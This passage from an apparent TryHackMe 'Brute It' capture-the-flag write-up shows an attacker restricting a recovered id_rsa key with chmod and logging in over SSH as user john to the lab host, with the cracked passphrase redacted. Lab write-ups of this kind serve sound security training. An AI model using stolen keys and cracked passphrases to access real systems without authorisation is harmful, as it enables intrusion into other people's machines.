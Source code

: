 We got a match!
The **password** is : **[REDACTED]**

We need to give us ownership of the id_rsa key to be able to use it ourself.  To change the **file permission**:

```shell
chmod 400 id_rsa
```

![6](./_attachment/thm-brute-it-id-rsa-file-perm.png)
We can check with `ls -la` that `id_rsa` is now read-only and owned by a single user, me.

## PORT 22 - SSH - OpenSSH 7.6p1

Now, it is time to use everything we have gathered so far and connect to the target using the **username** `john` and the id_rsa file:  

```shell
❯ ssh -i id_rsa john@bruteit.thm
The authenticity of host 'bruteit.thm (10.10.150.236)' can't be established.
ED25519 key fingerprint is SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/7yfrGnM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bruteit.thm' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 

```

And...

``` shell
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ 
```
